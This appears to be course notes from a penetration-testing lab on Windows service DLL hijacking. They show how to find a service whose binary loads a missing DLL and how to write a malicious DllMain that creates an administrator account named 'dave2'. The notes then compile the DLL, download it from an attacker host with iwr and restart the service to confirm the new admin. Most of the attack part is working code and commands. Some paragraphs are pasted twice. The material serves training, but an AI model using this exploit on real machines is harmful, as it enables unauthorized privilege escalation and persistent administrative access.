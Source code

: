 # Service DLL Hijacking

**Search for binaries**

```
PS C:\Users\steve> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

Name                      State   PathName
----                      -----   --------
...
BetaService               Running C:\Users\steve\Documents\BetaServ.exe
...
```

**Checking permissions**

```
PS C:\Users\steve> icacls .\Documents\BetaServ.exe
.\Documents\BetaServ.exe NT AUTHORITY\SYSTEM:(F)
                         BUILTIN\Administrators:(F)
                         CLIENTWK220\steve:(RX)
                         CLIENTWK220\offsec:(F)

Successfully processed 1 files; Failed processing 0 files
```

**We need admin privs to research the processes going on with this binary**

Without any filters, the information provided by Process Monitor
can be quite overwhelming. Multiple new list entries are added every
second. For now, we are only interested in events related to the
process *BetaServ* of the target service, so we can create a filter
to only include events related to it. For this, we'll click on the
*Filter* menu > *Filter...* to get into the filter configuration.

The filter consists of four conditions. Our goal is that Process
Monitor only shows events related to the *BetaServ* Process. We
enter the following arguments: *Process Name* as *Column*, *is* as
*Relation*, *BetaServ.exe* as *Value*, and *Include* as *Action*.
Once entered, we'll click on *Add*.

![https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/winprivesc/430e1aa80d980c8e9160be549733996c-privesc_svcdll_pmfilter.png](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/winprivesc/430e1aa80d980c8e9160be549733996c-privesc_svcdll_pmfilter.png)

Figure 5: Add Filter for BetaServ.exe

After applying the filter, the list is empty. In order to analyze the
service binary, we should try restarting the service as the binary
will then attempt to load the DLLs.

Without any filters, the information provided by Process Monitor
can be quite overwhelming. Multiple new list entries are added every
second. For now, we are only interested in events related to the
process *BetaServ* of the target service, so we can create a filter
to only include events related to it. For this, we'll click on the
*Filter* menu > *Filter...* to get into the filter configuration.

The filter consists of four conditions. Our goal is that Process
Monitor only shows events related to the *BetaServ* Process. We
enter the following arguments: *Process Name* as *Column*, *is* as
*Relation*, *BetaServ.exe* as *Value*, and *Include* as *Action*.
Once entered, we'll click on *Add*.

![https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/winprivesc/430e1aa80d980c8e9160be549733996c-privesc_svcdll_pmfilter.png](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/winprivesc/430e1aa80d980c8e9160be549733996c-privesc_svcdll_pmfilter.png)

Figure 5: Add Filter for BetaServ.exe

After applying the filter, the list is empty. In order to analyze the
service binary, we should try restarting the service as the binary
will then attempt to load the DLLs.

In PowerShell, we enter **Restart-Service**[5](https://portal.offsec.com/courses/pen-200-44065/learning/windows-privilege-escalation-45276/leveraging-windows-services-47210/service-dll-hijacking-45285#fn-local_id_3093-5) with
**BetaService** as argument, while Process Monitor is running in the
background.

```
PS C:\Users\steve> Restart-Service BetaService
WARNING: Waiting for service 'BetaService (BetaService)' to start...

```

> Listing 59 - Restarting BetaService
> 

Listing 59 shows that we could successfully
restart *BetaService*.

Checking Process Monitor, we notice that numerous events appeared.
Scrolling down in the list, various *CreateFile* calls can be found
in the *Operation* column. The *CreateFile* function can be used to
create or open a file.

![https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/winprivesc/96d3cc822281c7d597412e0b78698a2f-privesc_svcdll_dllsearch.png](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/winprivesc/96d3cc822281c7d597412e0b78698a2f-privesc_svcdll_dllsearch.png)

Figure 6: Add Filter for BetaServ.exe

Figure 6 shows that the *CreateFile*
calls attempted to open a file named **myDLL.dll** in several paths.
The *Detail* column states *NAME NOT FOUND* for these calls, which
means that a DLL with this name couldn't be found in any of these
paths.

The consecutive function calls follow the DLL search order from
Listing 56, starting with the directory
the application is located in and ending with the directories in
the *PATH* environment variable. We can confirm this by displaying
the contents of this environment variable with **$env:path** in
PowerShell.

```
PS C:\Users\steve> $env:path
C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\;C:\Users\steve\AppData\Local\Microsoft\WindowsApps;

```

Let's reuse the C code from the previous section by adding the
*include* statement as well as the system function calls to the C++
DLL code. Additionally, we need to use an *include* statement for the
header file **windows.h**, since we use Windows specific data types
such as *BOOL*. The final code is shown in the following listing.

```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}

```

> Listing 62 - C++ DLL example code from Microsoft
> 

Now, let's cross-compile the code with *mingw*. We use the same
command as in the previous section but change the input code file, the
output name, and add **--shared** to specify that we want to build a
DLL.

```
kali@kali:~$ x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll

```

> Listing 63 - Cross-Compile the C++ Code to a 64-bit DLL
> 

Once the DLL is compiled, we can transfer it to CLIENTWK220. We can
start a Python3 web server on Kali in the directory the DLL is located
in and use **iwr** in a PowerShell window on the target machine.
Before we download the file, we change our current directory to
the **Documents** folder of *steve* to download it into the correct
directory for our attack. Additionally, we confirm that *dave2*
doesn't exist yet on the system with the **net user** command.

```
PS C:\Users\steve> cd Documents

PS C:\Users\steve\Documents> iwr -uri http://192.168.119.3/myDLL.dll -Outfile myDLL.dll

PS C:\Users\steve\Documents> net user
User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
daveadmin                DefaultAccount           Guest
offsec                   steve                    WDAGUtilityAccount
The command completed successfully.

```

> Listing 64 - Download compiled DLL
> 

**myDLL.dll** is now located in the **Documents** folder of *steve*,
which is the first path in the DLL search order. After we restart
*BetaService*, our DLL should be loaded into the process and the code
to create the user *dave2* as member of the local *Administrators*
group in *DLL_PROCESS_ATTACH* should be executed.

```
PS C:\Users\steve\Documents> Restart-Service BetaService
WARNING: Waiting for service 'BetaService (BetaService)' to start...
WARNING: Waiting for service 'BetaService (BetaService)' to start...

PS C:\Users\steve\Documents> net user
User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
dave2                    daveadmin                DefaultAccount
Guest                    offsec                   steve
WDAGUtilityAccount
The command completed successfully.

PS C:\Users\steve\Documents> net localgroup administrators
...
Administrator
BackupAdmin
dave2
daveadmin
offsec
The command completed successfully.

```